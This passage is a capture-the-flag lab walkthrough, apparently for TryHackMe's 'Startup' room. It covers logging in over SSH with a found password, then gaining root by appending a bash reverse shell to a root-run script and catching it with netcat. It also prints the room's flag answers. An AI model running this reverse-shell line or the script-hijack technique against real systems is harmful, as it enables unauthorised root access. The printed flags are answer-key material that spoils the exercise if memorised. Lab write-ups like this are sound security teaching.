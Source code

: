```r
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologi
```
We are able to capture a password:`` c4ntg3t3n0ughsp1c3``

Who has that password? When we ran ``cat /etc/passwd`` we noticed two user accounts
- ``lennie``
- ``ftpsecure``
My best guess: ``lennie``

Let us try and login using ``ssh``
``ssh lennie@10.10.232.226`` and we are in

Do file listing and obtain the user.txt file
``Answer:`` THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

We see a folder called script. That is actually a fine target. We open the scripts folder and notice two files.
```r
cd scripts
$ ls -l
total 8
-rwxr-xr-x 1 root root 77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root root  1 Feb 10 01:52 startup_list.txt
```
let us open the ``planner.sh``

```r
cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```
We immediately discover another script path /etc/print.sh

Can we plug in our reverse shell script into that path and gain a reverse connection. Let's try:

```r
echo "bash -i >& /dev/tcp/10.6.26.126/5555 0>&1" >> /etc/print.sh
```

run a netcat connection to catch the connection

``nc -lvp 5555``

```r
nc -lvp 5555 
listening on [any] 5555 ...
10.10.232.226: inverse host lookup failed: Unknown host
connect to [10.6.26.125] from (UNKNOWN) [10.10.232.226] 50140
bash: cannot set terminal process group (2192): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# ls
ls
planner.sh
root.txt
root@startup:~# cat root.txt
cat root.txt
THM{f963aaa6a430f210222158ae15c3d76d}
root@startup:~# 
```
Root.txt: ``THM{f963aaa6a430f210222158ae15c3d76d}``

